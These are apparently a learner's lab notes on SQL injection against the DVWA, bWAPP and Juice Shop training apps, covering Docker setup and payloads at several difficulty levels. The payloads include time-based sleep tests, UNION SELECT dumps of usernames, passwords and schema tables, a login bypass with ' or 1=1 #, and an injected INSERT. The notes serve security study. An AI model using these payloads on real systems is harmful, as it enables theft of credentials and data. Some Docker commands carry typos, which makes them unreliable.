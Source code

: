 # DVWA SQL INJECTION NOTE

docker
	sudo systemctl restart docker (to restart docker)
		restart docker after installing any container
	cat /var/log/docker.log
		checking the docker daemon logs 
	sudo docker ps (list all running containers)
		lists all containers
	sudo docker images -aq(-a all -q quiet it lists the image ids in short) (lists all images )
	-d means detached ..or run in the background 


--FIRST AID 
	(when searching for sqli, after inputing the single quote without a response try using the 1=1 payload)
	;
	#
	'
	' or '1'='1#
	' or sleep(5)#
	;waitfor delay '0:0:5' #
	1 or 1=1
	or sleep(5) 
notes 
	used to breakout of the sql code('), (;) 
	testing the for vulnerability using delay 
		' or sleep(5)--
		' or sleep(5)#'
		; waitfor delay '0:0:5'-- 
	comment 
		#.
		--
DVWA
	installation
		docker pull kaakaww/dvwa-docker
		docker run -d -t -p 80:80 --name dvwa1 kaakaw/dvwa-docker
		sudo docker stop dvwa1 
			(it did'nt really work but running docker ps and then shutting it down with the name there works and also starting it was with running the second command)
# SQLI low security
goal= There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.			
		procedures
		-check the help
		- check the source code
		-intercept the userid submit request using burpuite proxy
		-send to burpsuite 
	-----
		analysis 
		 (to breakout of the sql code('), (;) )
			 -test for vulnerability using the delay function
				 ' or sleep(5)#'  (this delays for 25 seconds that means the parameter is vulnerable)
				 ' ||(select sleep(5))#'(this delays for 25 seconds)
				 ' or sleep(5)#' 
				 'waitfor delay '0:0:5'-- (500 internal error)
				 (-----)(sleep function was successful)
				-finding number of columns
					'order by 1# (200)
					'order by 2#(200)
					'order by 3#(500 internal error)
					this will return 200 , if it returns 500 that means its out of range
				- dumping all the columns
					1' or '1'='1
				--- 
					 ' union select user, password from users# (this returns all the usernames and password)
				----users
						'union select column_name, null from information_schema.columns where table_name = 'users'#
				---user_id, last_login
					'union select user_id, last_login from users#
				---information schema .table
					 'union select table_name, null from information_schema.tables#(this returns all the tables in the data base )
				----information schema
					 'union select column_name, null from information_schema.columns#(returns all the columns in the column table)
				 ---ALL_PLUGINS
					 'union select column_name, null from information_schema.columns where table_name = 'ALL_PLUGINS'#( this displays all the columns in the all plugins table)
				 ---PLUGIN_VERSION, PLUGIN_NAME
					 ' union select  PLUGIN_TYPE_VERSION, PLUGIN_LICENSE from ALL_PLUGINS#
				 ---FILES
					 'union select column_name , null from information_schema.columns where table_name = 'FILES'#
					 ---FILE_ID, FILE_TYPE 
					 ' union select ENGINE, FILE_ID FROM FILES#
# SQLI MEDIUM SECURITY
DESCRIPTION: The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
		--NOTE
		codes can be injected into dropdown menus by inspecting it and injecting the code into the parameter 
		-- 
		(') Doesnt work ...returns a 500 error
		--
		' or '1'='1 # (doesnt work internal error )
		--
		1 or sleep(5) (the request sleeps for 5 seconds )
		--
		1 or 1=1 ( 200 this returns all the user and surname )
		this payload does not require quotes because in the original code there are no quotes to break out of
		-- 
		1 or 1=1 union select user, password from users 
		(this payload returns the initial request response and user , password )
# SQLI high security--
description; This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
		--ANALYSIS
			-- (') 200 
			--
			; or sleep(5) # (this is returned in the input parameter)
			-- 
			1' or '1'='1' (doesnt work, its been filtered)
			-- 
			'union select user, password from users# (this returns all the users and password)
	
bwapp
	installation
		docker pull jgraham20/bwapp-armhf
		docker run --rm -p 80:80 --name bwapp jgraham20/bwapp-armhf
		docker pull cambarts/arm-bwapp
		docker start bwapp
		docker stop bwapp

juiceshop 
	installation 
		docker pull bkimminich/juice-shop 
		docker run --rm -p 3000:3000 bkimminich:juice-shop
	ANALYSIS 
		first check the product reviews
		copy any uers username/email
		go to the login page 
		paste the username/email + ' or 1=1 #
		pwned###
			(mmm' insert into users(email, password) values ('nun@gmail', 'nun')#)
